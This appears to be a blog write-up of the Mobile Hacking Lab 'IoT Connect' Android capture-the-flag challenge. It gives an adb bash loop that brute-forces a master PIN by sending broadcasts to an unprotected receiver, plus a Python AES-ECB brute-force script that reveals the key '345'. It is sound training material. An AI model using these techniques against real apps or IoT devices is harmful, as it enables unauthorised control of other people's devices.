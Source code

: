 ```yaml
---
title:  "Mobile Hacking IoT Connect Writeup"
date:   2024-01-22T16:27:00-0400
categories:
  - writeup
tags:
  - android
  - ctf
---
```



Hello everyone!
In this blog post , I will try to explain my solution steps for [IoT Connect](https://www.mobilehackinglab.com/course/lab-iot-connect) challenge from Mobile Hacking Lab. 

## Static Analysis
When we open the app in emulator, it opens a login page with login and signup buttons. We can create a new account with name and password. After logging in,  we can control some of ıot devices status(on/off) but we can not control AC, speakers and TV. Our account is a guest account and guests have limited permissions on devices.

Also there is a master switch button. This button can start all devices but guests can not use this button and its protected with 3 digit pin. Lets start our analyze with manifest file. 

![](./assets/images_mhl_iotconnect/manifest.png)

When we examine the manifest file, we see that a broadcast receiver named MasterReceiver defined without any permission protection. It means that everyone can trigger this receiver with proper arguments. Sample broadcast:  
```bash
adb shell am  broadcast -a MASTER_ON
```
I just searched name of this broadcast receiver and find the implementation in CommunicationManager class. Also you can search "registerReceiver" string to find broadcast receivers registers.

![](./assets/images_mhl_iotconnect/broadcastDefinition.png)
 
As seen in screenshot, we need to send broadcast with `"MASTER_ON"` action and a key as extra integer. This key sended to `check_key` function. If our key is correct, `turnOnAllDevices` will be called and we can turn on all devices without master account. Lets analyse check_key function. 

### check_key Function

![](./assets/images_mhl_iotconnect/check_key.png)

In this function, our key used to decrypt a base64 string and after decryption, expected result is `"master_on"` string. During key generation, our 3 digit key copied to another array. This array have 16 bytes and we have 13 null bytes after our key.
```
Algorith: AES ECB
Encrypted string: "OSnaALIWUkpOziVAMycaZQ=="
Key: our_key + 13*'\x00'

Expected result: "master_on"

```
With this information we can bruteforce key to find correct pin. For this attack you can use frida for following aes decryption processes and small bash script for sending broadcast with key. I used frida script from frida codeshare: https://codeshare.frida.re/@dzonerzy/aesinfo/

Bash script:
```bash
#!/bin/bash

for ((i=1; i<=999; i++)); do
    key=$(printf "%03d" $i) 
    echo $key
    adb shell am broadcast -a MASTER_ON --ei key $key
 
done

```
And PoC video:

[![](https://img.youtube.com/vi/GjnLXUowas4/0.jpg)](https://youtu.be/GjnLXUowas4)







Also I wroted small python script(with help of ch*tGPT). We can bruteforce key with this scirpt. Here is my code:
```py
from Crypto.Cipher import AES
import base64

encrypted_text = b'OSnaALIWUkpOziVAMycaZQ=='


def decrypt_with_key(encrypted_text, key):
    cipher = AES.new(key, AES.MODE_ECB)
    decrypted_text = cipher.decrypt(base64.b64decode(encrypted_text))
    return decrypted_text.decode('utf-8').strip()


def brute_force_decrypt(encrypted_text):
    for i in range(1000):
        key_prefix = str(i).zfill(3)
        key_suffix = b'\x00' * 13
        key = key_prefix.encode('utf-8') + key_suffix     
        #sh4d0wless
        try:
            decrypted_text_str = decrypt_with_key(encrypted_text, key)
            if "master_on" in decrypted_text_str:
                print("Key found: " + key.decode("utf-8") +" "+ decrypted_text_str)
                
        except UnicodeDecodeError:
            continue

brute_force_decrypt(encrypted_text)

```

```bash
sh4d0wless@paradise:~/Desktop$ python3 testoo.py 
Key found: 345 master_on
sh4d0wless@paradise:~/Desktop$ 

```
Our key is "345". We can turn on all devices with this key🎉🎉🎉:

[![](https://img.youtube.com/vi/qpdPvkfByc4/0.jpg)](https://youtu.be/qpdPvkfByc4)

Thanks for reading! See you in next writeups 👋🏻👋🏻